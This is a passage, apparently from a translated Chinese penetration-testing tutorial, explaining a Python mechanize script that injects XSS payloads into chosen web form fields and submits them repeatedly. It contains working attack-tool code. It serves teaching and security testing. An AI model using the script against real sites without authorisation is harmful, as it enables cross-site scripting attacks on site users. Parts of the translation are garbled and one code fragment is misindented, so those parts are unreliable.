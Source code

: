 ```
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表：`list_a`和`list_n`。`list_a`列表包含您希望发送 XSS 漏洞攻击的字段名，`list_n`列表包含您不希望发送 XSS 漏洞攻击的字段名。

现在我们来看节目。如果您了解`xss.py`计划，您会注意到我们对`xss.py`进行了修改，创建了`xss_list.py`：

```
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的意义。变量字段要求用户输入表单中非只读的表单字段总数。`for i in xrange(0,field):`语句定义`for`循环将运行表单字段的总次数。`na`变量要求用户输入字段名，`ch`变量要求用户输入`Do you attack on this field`。这意味着，如果您按*y*或*y*，输入的字段将转到`list_a`；否则将转到`list_n`：

```
for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'
```

前面的代码很容易理解。两个列表的两个`for`循环运行到列表的长度，并填写表单字段。

代码的输出如下所示：

![Nonpersistent or reflected XSS](graphics/8583OT_07_12.jpg)

填写检查表\u n

前面的屏幕截图显示表单字段的数量为两个。用户输入表单字段的名称并将其设置为非攻击字段。这只是检查代码的工作情况。

![Nonpersistent or reflected XSS](graphics/8583OT_07_13.jpg)

填写表格以检查列表

前面的屏幕截图显示用户输入表单字段并使其成为攻击字段。

现在，请查看网站的回复，如下所示：

![Nonpersistent or reflected XSS](graphics/8583OT_07_14.jpg)
